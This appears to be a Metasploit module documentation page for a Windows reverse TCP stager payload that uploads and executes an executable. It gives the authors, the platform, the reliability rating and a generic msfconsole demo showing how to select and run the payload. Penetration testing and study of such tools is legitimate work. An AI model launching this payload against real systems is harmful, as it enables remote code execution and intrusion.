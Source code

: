## Windows Upload/Execute, Reverse TCP Stager (No NX or Win7)

Uploads an executable and runs it (staged). Connect back to 
the attacker (No NX)


## Module Name
payload/windows/upexec/reverse_nonx_tcp

## Authors
* vlad902
* sf





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/upexec/reverse_nonx_tcp
msf payload(reverse_nonx_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_nonx_tcp) > set TARGET <target-id>
msf payload(reverse_nonx_tcp) > show options
   ... show and set options ...
msf payload(reverse_nonx_tcp) > run
```
    
    